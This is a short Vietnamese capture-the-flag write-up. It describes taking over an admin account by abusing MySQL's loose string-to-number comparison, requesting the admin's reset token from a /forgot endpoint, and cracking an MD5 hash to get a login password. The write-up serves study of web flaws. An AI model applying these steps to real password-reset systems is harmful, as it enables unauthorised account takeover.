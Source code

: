 # Solution

Khai thác ở bug loggic của mysql

```
mysql> select "123abcdef"=123;
+-----------------+
| "123abcdef"=123 |
+-----------------+
|               1 |
+-----------------+
1 row in set, 1 warning (0.00 sec)
```


POST đến `/forgot` với `{"step":1, "username": "admin"}` để lấy `reset_token` của admin



=> `234d8ccedc7bea108573a7e669dd111f`

[md5crack](https://hashes.com/en/decrypt/hash) -> `8e30b8`

Login với password là `8e30`


Kết quả



